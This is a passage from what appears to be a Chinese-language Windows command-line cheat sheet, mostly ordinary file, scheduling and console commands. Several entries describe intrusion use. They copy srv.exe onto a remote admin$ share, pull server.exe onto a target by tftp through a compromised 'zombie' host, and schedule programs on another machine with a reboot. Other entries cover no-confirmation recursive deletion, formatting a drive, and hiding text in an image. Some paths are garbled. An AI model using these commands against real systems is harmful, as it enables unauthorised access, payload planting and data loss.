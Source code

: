数&ldquo;/all&rdquo;显示全部配置信息
tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如&ldquo;DEL/AR *.*&rdquo;表示删除当前目录下所有只读文件，&ldquo;DEL/A-S *.*&rdquo;表示删除当前目录下除系统文件以外的所有文件
del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
finger username @host 查看最近有哪些用户登陆
telnet ip 端口 远和登陆服务器,默认端口为23
open ip 连接到IP（属telnet登陆后的命令）
telnet 在本机上直接键入telnet 将进入本机的telnet
copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将&ldquo;IP&rdquo;的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
mem 查看cpu使用情况
attrib 文件名(目录名) 查看某文件（目录）的属性
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
date /t 、 time /t 使用此参数即&ldquo;DATE/T&rdquo;、&ldquo;TIME/T&rdquo;将只显示当前日期和时间，而不必输入新日期和时间
set 指定环境变量名称=要指派给变量的字符 设置环境变量
set 显示当前所有的环境变量
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
pause 暂停批处理程序，并显示出：请按任意键继续....
if 在批处理程序中执行条件处理（更多说明见if命令及变量）
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：&ldquo;：start&rdquo;标签）
call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
echo 信息 在屏幕上显示出信息
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
find 文件名 查找某文件
title 标题名字 更改CMD窗口标题名字
color 颜色值 设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
ver 在DOS窗口下显示版本信息
winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
md　目录名 创建目录
replace 源文件　要替换文件的目录 替换文件
ren 原文件名　新文件名 重命名文件名
tree 以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称
type 文件名 显示文本文件的内容
more 文件名 逐屏显示输出文件
doskey 要锁定的命令＝字符
doskey 要解锁命令= 为DOS提供的锁定命令(编辑命令行，重新调用win2k命令，并创建宏)。如：锁定dir命令：doskey dir=entsky (不能用doskey dir=dir)；解锁：doskey dir=
taskmgr 调出任务管理器